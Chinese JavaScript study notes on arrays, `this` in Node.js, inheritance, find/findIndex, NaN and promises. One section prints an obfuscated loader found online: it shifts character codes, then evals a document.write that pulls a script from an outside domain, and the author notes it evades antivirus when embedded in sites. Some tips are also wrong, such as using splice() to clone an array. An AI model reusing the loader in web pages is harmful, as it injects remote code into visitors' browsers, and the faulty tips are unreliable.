 ﻿# JavaScript-Notes

---

### **克隆数组**

经常用到克隆一个一模一样的数组，但是不能直接 arr1 = arr2，因为 arr1 只是指向同一份数据的另一个指针而已，这种情况下，修改arr2，arr1也会发生变化，而我们需要的是完全的克隆。

ES5 中可以这样写：

```
arr2 = arr1.concat()
// 或
arr2 = arr1.splice()
```
根据 concat 和 splice 返回原数组的克隆的特性

ES6 中出现了扩展运算符就可以更加简便地实现了：
```
arr2 = [...arr1]
```

### **合并数组**

将一个数组的所有元素合并到另一个数组中去，最简单的做法就是遍历数组，然后把每个元素 push 进另一个数组中，很显然，这种做法非常不优雅，看看更优雅的：

ES5 的做法：
```
arr1.concat(arr2)
```
concat 本身的作用就是合并两个数组，这样做非常自然。这种做法不会改变 arr1 的内容，它会返回一个新的数组

ES6 的做法，扩展运算符再一波刷新了它的存在感：
```
arr1.push(...arr2)
```
这种做法会改变 arr1 的内容，就再次省略了赋值的操作，优雅。合并多个数组的时候，只需往 push 里添加参数就可以了

### **NodeJS 和 Javascript 的 this**

初用 NodeJS 的时候第一时间就发现了 NodeJS 中的 this 怪怪的，下面请看案发现场：

```
var a = 'a';
var fn = function () {
	console.log(this.a);
};

fn();
```

这个简单的例子，在浏览器中执行大家都知道肯定是打印 a 出来。然而这个理所当然在 NodeJS 中并不管用，NodeJS 直接扔了个 undefined 回来，说这个玩意我不认识。都是兄弟，怎么弟弟就脸盲了呢？咱们去下一个案发现场：

```
var a = 'a'
var fn = function () {
	this.a = 'b';
};

fn()
console.log(a);
```

在函数中修改了全局变量 a 的值，至少在浏览器上运行是这么理解的，打印出来的结果是理所当然的 b。我们倔强的 NodeJS 说什么也不变，就是 a。那么在 NodeJS 中这个函数里的 this.a 去哪了呢？打印一下这个就知道了：

```
console.log(global.a)
```

有没有一丝明白，我们再来理一下。函数中的 this 指向的是调用改函数的对象，所以在全局中执行的函数 fn this 指向的是全局对象 window ，这是在浏览器中的情况。NodeJS 没有 window，全局对象是 global，所以函数中定义的 this 的内容全部都存储在 global 中，而在顶级作用域中所有的内容都是属于 module.exports 老大的，所以顶级作用域定义的 this.a ，可以通过这样来获取：

```
console.log(module.exports.a)
```

### **两种对象继承方法**

第一种是 YUI 库实现继承方法，利用空对象作为中介的 prototype 模式继承，直接封装成函数了：

```
function extend(Child, Parent) {

  var F = function () {};

  F.prototype = Parent.prototype;

  Child.prototype = new F();

  // 上面的操作使子对象的 constructor 指向了空对象，下面手动纠正回来
  Child.prototype.constructor = Child;

  // 为子对象设置一个uber属性，这个属性直接指向父对象的prototype属性
  // 这等于在子对象上打开一条通道，可以直接调用父对象的方法。实现继承的完备性，纯属备用性质
  Child.uber = Parent.prototype;
}
```

第二种是拷贝继承，把父对象的所有属性和方法拷贝进子对象实现继承，封装成函数是：

```
function extend2(Child, Parent) {
  var p = Parent.prototype;
  var c = Child.prototype;
  for (var i in p) {
    c[i] = p[i];
  }
  c.uber = p;
}
```

### **一段恶意代码**

网上瞎逛的时候发现了这么一段代码，颇有意思，研究研究：
```
var str = "cnbtldms-vqhsd'!;rbqhosrqb<";
str += "[!gsso9..vvv-fnnfkd`crk-bnl.robncd.";
str+="iptdqx-ir[!=;.rbqhos=!(:";
var length = str.length;
var ba64 = "";
for (i = 0; i < length; i++) {
    var s = str.charCodeAt(i);
    s++;
    ba64 = ba64 + String.fromCharCode(s);
}
console.log(ba64);
eval(ba64);
```

很巧妙，用一堆莫名其妙的无效字符串通过对每个字符进行转码操作再转回字符串就变成一串有效的恶意字符串， 最后用 eval() 执行恶意字符串，学习了。把这段恶意代码嵌套到别的网站中，用户访问该网站就执行了这段恶意代码。而且这种病毒一般杀毒软件都查杀不了，也可以看出 eval() 的不安全性。

### **ES6: find 和 findIndex**

indexOf(element) 是根据数组元素找到元素所在数组的位置

find(callback) 是按照回调函数的规则找到数组中第一个符合规则的元素，没有的话返回 undefined，回调函数的参数有value，index，arr

findIndex(callback) 是 find 和 indexOf 的合体，传入回调函数，返回符合条件的数组成员位置，没有则返回-1

indexOf 还有一个不足的地方是无法识别数组中的 NaN 元素，而 findIndex 可以

### **判断是否是 NaN**
NaN 不能直接通过 === 去判断，所以可以用：
```
Object.is(NaN, x)
```
### **构造一个有序的任务队列**
``` js
// 任务
const task = () => new Promise((resolve, reject) => {
  if (success) {
    resolve()
  }

  reject()
})

// 构造任务队列
const tasks = [task(), task()]

// 执行
Promise.all(tasks)
```
